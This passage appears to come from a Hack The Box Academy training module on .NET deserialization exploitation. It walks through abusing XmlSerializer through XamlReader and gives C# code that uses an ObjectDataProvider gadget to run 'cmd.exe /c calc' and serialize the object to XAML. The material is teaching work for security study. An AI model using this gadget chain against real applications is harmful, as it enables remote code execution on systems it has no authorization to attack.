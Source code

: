 Before we start blindly copying and pasting anything, let's try to understand what is going on here. After some searching online, we found the following slide from the [Friday the 13th JSON Attacks](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf) talk at BlackHat 2017 discussing `XmlSerializer` in the context of the DotNetNuke vulnerability.

![image](https://academy.hackthebox.com/storage/modules/240/3/26.png)

The slide mentions that types with interface members can not be serialized and that this affects the `Process` class, which is what we were using with `ObjectDataProvider` in the previous exploit. However, it does also mention that we can use `XamlReader.Load` instead to lead to `remote code execution`, so let's look at this a bit closer. Essentially, `XamlReader` is just another serializer that can be used with `.NET`. We will not be able to serialize `ObjectDataProvider` directly with `XmlSerializer` to get `code execution`, but we can serialize a `XamlReader` and then pass a serialized `ObjectDataProvider` to `XamlReader` which should then result in `code execution`.

#### Creating our Payload

Let's create a new `.NET Framework Console` application called `TeeImportExploit` and start working on a payload for `XamlReader`. Reusing our `ObjectDataProvider` from before, and then adding a couple of lines to serialize the object with [XamlWriter](https://learn.microsoft.com/en-us/dotnet/api/system.windows.markup.xamlwriter?view=windowsdesktop-7.0) (the counterpart to `XamlReader`) we get this code (make sure to add the reference to `System.Windows.Markup (from PresentationFramework)` similar to the way we did with `ObjectDataProvider`):

```csharp
using System;
using System.Windows.Data;
using System.Windows.Markup;

namespace TeeImportExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectType = typeof(System.Diagnostics.Process);
            odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
            odp.MethodParameters.Add("/c calc");
            odp.MethodName = "Start";

            string xaml = XamlWriter.Save(odp);
            Console.WriteLine(xaml);
        }
    }
}

```

Running the program does launch the calculator, and an XAML string is written to the console, however, we notice that the method parameters are not mentioned anywhere, therefore, if we attempt to deserialize this string with `XamlReader.Load` nothing would happen.

![image](https://academy.hackthebox.com/storage/modules/240/3/27.png)
